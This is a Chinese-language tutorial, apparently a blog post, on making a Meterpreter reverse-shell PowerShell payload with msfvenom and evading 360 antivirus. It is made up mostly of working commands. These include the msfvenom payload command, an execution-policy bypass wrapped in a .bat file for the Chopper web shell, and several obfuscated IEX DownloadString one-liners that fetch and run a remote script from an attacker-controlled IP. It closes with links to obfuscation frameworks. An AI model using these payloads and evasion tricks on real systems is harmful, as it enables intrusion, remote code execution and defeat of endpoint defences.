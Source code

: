 msfvenom生成ps木马

        msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.203.140 LPORT=4444 -f psh-reflection >a.ps1    

但是一些Anti-Virus对powershell命令查杀比较严格。以360为例：

对于后一种，可以将绕过执行策略的命令修改为bat文件后再次运行。可绕过360

        powershell -ExecutionPolicy bypass -File ./a.ps1    

将该命令保存为c.bat，菜刀运行即可。



对于IEX这种方便快捷的方式直接运行会被360拦截。可尝试从语法上简单变化。

主要是对DownloadString、http做一些处理。

比如这个：

        powershell.exe     

        "    

        $c1='powershell -c IEX';    

        $c2='(New-Object Net.WebClient).Downlo';    

        $c3='adString(''http://192.168.197.192/a.ps1'')';    

        echo ($c1,$c2,$c3)    

        "    

先将命令拆分为字符串，然后进行拼接。

需要注意的是双引号可以输出变量，两个单引号连用才能输出一个单引号。



成功输出该命令。echo修改为IEX即可运行，bypass 360。



也可以使用replace替换函数，bypass。

        powershell "$c1='IEX(New-Object Net.WebClient).Downlo';$c2='123(''http://192.168.197.192/a.ps1'')'.Replace('123','adString');IEX ($c1+$c2)"    

也可以对http字符进行绕过，同样可以bypass

        powershell "$a='IEX((new-object net.webclient).downloadstring(''ht';$b='tp://192.168.197.192/a.ps1''))';IEX ($a+$b)"     



实际测试也可以在菜刀里直接运行后产生session

为了更好用于实战，可以在c、vbs、hta、python等语言中执行该系统命令，达到bypass的效果。

大佬们还写出了用于编码和混淆的框架

    https://github.com/danielbohannon/Invoke-Obfuscation

    https://www.freebuf.com/sectool/136328.html
